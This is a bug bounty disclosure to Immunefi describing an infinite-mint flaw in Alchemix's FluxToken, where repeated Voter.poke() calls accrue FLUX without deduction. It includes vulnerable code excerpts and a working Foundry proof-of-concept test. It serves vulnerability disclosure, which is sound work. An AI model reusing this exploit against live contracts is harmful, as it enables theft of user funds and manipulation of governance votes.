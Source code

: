 
# Infinite mint of FLUX using poke

Submitted on Tue May 21 2024 08:23:35 GMT-0400 (Atlantic Standard Time) by @konata for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31579

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
There is an infinite mint vulnerability for the FLUX token using the `poke` functionality of the `Voter` contract. 

## Vulnerability Details
In the `_vote` function of the Voter contract, it calls into `FLUX.accrueFlux`, which increases the user's unclaimed FLUX balance from the VotingEscrow balance. It later calls `FLUX.updateFlux` to decrease it, but only with the amount of `boost`, which can simply be 0:
```
    function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
        _;
        IFluxToken(FLUX).accrueFlux(_tokenId);
        _;
        // Update flux balance of token if boost was used
        if (_boost > 0) {
            IFluxToken(FLUX).updateFlux(_tokenId, _boost);
        }
    }
```
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412-L455

The function `FLUX.accrueFlux` increases the balance using `VotingEscrow.claimableFlux(tokenId)`, which is a view function and stays the same depending on the amount and lock duration of the token ID:
```
    function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
```
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188-L192

`VotingEscrow.claimableFlux` does not depend on the amount of unclaimed FLUX in FluxToken for the user, and so the value returned from `claimableFlux` remains the same.

One can therefore simply call `Voter.poke()` over and over again, as this calls `FluxToken.accrueFlux` each time and uses a boost of 0. The user's `unclaimedFlux` in `FluxToken` would grow with the entire balance each time.

The user can then call `FluxToken.claimFlux` to turn the unclaimed FLUX into real ERC20 tokens that can be traded.

## Impact Details
The impact is an infinite mint of FLUX. This is a critical impact to not only the governance process (since FLUX can be used to boost), but also to the market and TVL of FLUX.

The vulnerability can be exploited by anyone and in the time frame of the same transaction.

## References
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412-L455
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188-L192
        
## Proof of concept
## Proof of Concept

A simple PoC that shows the attack scenario by calling `poke` each time.

```
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import "./Token.sol";

import "src/FluxToken.sol";
import "src/Minter.sol";
import "src/Voter.sol";
import "src/VotingEscrow.sol";
import "src/factories/BribeFactory.sol";
import "src/factories/GaugeFactory.sol";
import "src/RewardsDistributor.sol";
import "src/RevenueHandler.sol";
import "src/RewardPoolManager.sol";

contract PoC is Test {

    Token alcx;
    Token bpt;
    FluxToken flux;
    VotingEscrow ve;
    Voter voter;
    Minter minter;
    BribeFactory bf;
    GaugeFactory gf;
    RewardPoolManager rpm;

    function setUp() public {
        _next_epoch();
        alcx = new Token("ALCX", "ALCX");
        bpt = new Token("BPT", "BPT");
        bf = new BribeFactory();
        gf = new GaugeFactory();
        flux = new FluxToken(address(this));
        ve = new VotingEscrow(address(bpt), address(alcx), address(flux), address(this));
        voter = new Voter(address(ve), address(gf), address(bf), address(flux), address(this));
        minter = new Minter(IMinter.InitializationParams({
            alcx: address(alcx),
            voter: address(voter),
            ve: address(ve),
            rewardsDistributor: address(this),
            revenueHandler: address(this),
            timeGauge: address(this),
            treasury: address(this),
            supply: 1793678e18,
            rewards: 12724e18,
            stepdown: 130e18
        }));
        rpm = new RewardPoolManager(address(this), address(ve), address(bpt), address(this), address(this));

        flux.setMinter(address(minter));
        flux.setVoter(address(voter));
        flux.setVeALCX(address(ve));

        ve.setVoter(address(voter));
        ve.setRewardPoolManager(address(rpm));

        voter.setMinter(address(minter));
    }

    function test_poc() public {
        bpt.approve(address(ve), type(uint).max);
        uint tokenId = ve.createLock(1 ether, 0, true);

        console.log(flux.balanceOf(address(this)));

        for (uint i; i < 10; i++) {
            voter.poke(tokenId);
        }

        flux.claimFlux(tokenId, flux.unclaimedFlux(tokenId));

        console.log(flux.balanceOf(address(this)));
    }
```